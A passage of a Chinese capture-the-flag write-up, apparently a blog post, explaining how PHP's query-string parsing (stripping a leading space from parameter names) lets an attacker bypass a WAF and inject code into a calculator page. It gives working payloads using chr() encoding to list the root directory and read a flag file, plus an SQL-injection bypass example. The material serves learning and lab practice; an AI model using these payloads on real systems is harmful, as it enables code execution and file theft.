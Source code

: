 ```

```

至此就很尴尬了，只能输入数字和加减乘除运算符，不能输入字符，而且还过滤一堆关键词……

【**PHP字符串解析漏洞**】

下面需要结合 PHP 字符串解析漏洞进行 WAF 绕过，所以先对 PHP 字符串解析特性进行了解。
1. PHP 会将查询字符串（在 URL 或正文中）转换为内部`$_GET`或的关联数组`$_POST`。例如：`/?foo=bar`变成`Array([foo] =&gt; “bar”)`。1. 值得注意的是，查**询字符串在解析的过程中会将某些字符删除或用下划线代替**。1. 例如，`/?%20news[id%00=42`会转换为`Array([news_id] =&gt; 42)`。如果一个 IDS/IPS 或 WAF 中有一条规则是当 `news_id` 参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：`/news.php?%20news[id%00=42"+AND+1=0--`，上述 PHP 语句的参数`%20news[id%00`的值将存储到`$_GET[“news_id”]`中。
PHP 需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：
1. 删除空白符；1. 将某些字符转换为下划线（包括空格）。
例如： <img src="https://img-blog.csdnimg.cn/2021050413230655.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 将 PHP 该解析特性应用到本题目中来，因为 waf 不允许 num 变量传递字母：

```
http://www.xxx.com/index.php?num = aaaa   //显示非法输入的话


```

那么我们可以在 num 变量名称前加个空格：

```
http://www.xxx.com/index.php? num = aaaa


```

这样 waf 就找不到 num 这个变量了，因为现在的变量叫`“ num”`，而不是`“num”`。但 php 在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

5、解决了如何传递字符后，需要先扫根目录下的所有文件（看看是否存在 flag 文件），也就是`scandir("/")`，但是“`/`”被过滤了，所以我们用`chr(“47”)`绕过（ `chr()` 函数可以将 ASCII 码转换为字符），Payload 如下：

```
calc.php? num=var_dump(scandir(chr(47))) 


```

执行后可看到根目录下存在 `flagg` 文件：

<img src="https://img-blog.csdnimg.cn/20210504134428361.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">6、知道有 `f1agg.php` 这个文件就可以用 `file_get_contents()` 函数先读取文件为字符串然后用 `var_dump` 显示字符串得到 flag，Payload 如下：

```
calc.php? num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))


```

获得最终的 Flag： <img src="https://img-blog.csdnimg.cn/202105041346403.png" alt="在这里插入图片描述">另外一个 Payload（省略了 `var_dump` 函数）：

```
/calc.php?%20num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))


```
